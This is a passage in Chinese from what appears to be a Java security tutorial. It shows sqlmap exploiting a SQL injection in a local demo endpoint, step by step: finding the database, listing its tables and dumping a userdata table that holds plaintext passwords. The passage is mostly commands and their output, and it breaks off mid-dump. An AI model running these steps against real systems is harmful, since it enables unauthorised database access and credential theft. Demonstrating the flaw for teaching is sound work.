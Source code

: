 </code></pre>
<p>可以得到当前数据库是 common_mistakes：</p>
<pre><code>current database: 'common_mistakes'

</code></pre>
<p>第二步，查询数据库下的表：</p>
<pre><code>python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test --tables -D "common_mistakes"

</code></pre>
<p>可以看到其中有一个敏感表 userdata：</p>
<pre><code>Database: common_mistakes

[7 tables]

+--------------------+

| user               |

| common_store       |

| hibernate_sequence |

| m                  |

| news               |

| r                  |

| userdata           |

+--------------------+

</code></pre>
<p>第三步，查询 userdata 的数据：</p>
<pre><code>python sqlmap.py -u  http://localhost:45678/sqlinject/jdbcwrong --data name=test -D "common_mistakes" -T "userdata" --dump

</code></pre>
<p>你看，用户密码信息一览无遗。当然，你也可以继续查看其他表的数据：</p>
<pre><code>Database: common_mistakes

Table: userdata

[2 entries]

+----+-------+----------+

| id | name  | password |

+----+-------+----------+

| 1  | test1 | haha1    |
